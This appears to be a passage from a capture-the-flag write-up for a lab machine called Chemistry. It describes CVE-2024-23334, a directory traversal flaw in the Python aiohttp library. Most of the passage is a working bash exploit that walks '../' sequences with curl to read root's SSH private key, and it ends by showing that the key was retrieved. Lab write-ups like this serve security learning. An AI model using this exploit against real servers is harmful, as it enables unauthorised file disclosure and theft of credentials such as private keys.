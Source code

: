 CVE-2024-23334 is a directory traversal vulnerability identified in the aiohttp library, an asynchronous HTTP client/server framework for Python's asyncio. This vulnerability allows unauthenticated remote attackers to access arbitrary files on the server, potentially leading to unauthorized data exposure. 

Let's use the below exploit.

```bash
#!/bin/bash

url="http://localhost:8080"
payload="/assets/"
file="root/.ssh/id_rsa"

for ((i=0; i<15; i++)); do
    payload+="../"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

While making changes in the actual script as `payload=/assets/` and `file=root/.ssh/id_rsa`.

![root's id_rsa](/assets/images/writeups/Chemistry-HTB/15.png)
